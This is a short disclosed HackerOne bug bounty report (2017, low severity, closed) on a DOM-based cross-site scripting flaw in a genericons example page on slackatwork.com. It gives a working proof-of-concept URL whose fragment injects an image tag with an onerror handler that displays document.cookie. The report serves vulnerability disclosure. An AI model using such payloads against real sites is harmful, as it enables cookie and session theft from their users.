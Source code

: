 # dom xss in https://www.slackatwork.com

## Report Details
- **Report ID**: 196624
- **URL**: https://hackerone.com/reports/196624
- **State**: Closed
- **Severity**: low
- **Submitted**: 2017-01-07T21:35:40.104Z
- **Disclosed**: 2017-03-02T01:05:39.069Z

## Reporter
- **Username**: ba4fe4ca95021d367f8a574
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: slack

## Vulnerability Information
https://www.slackatwork.com/wp-content/themes/twentyfifteen/genericons//example.html#1<img/ src=1 onerror= alert(document.cookie)>

## Attachments
- Screenshot.png
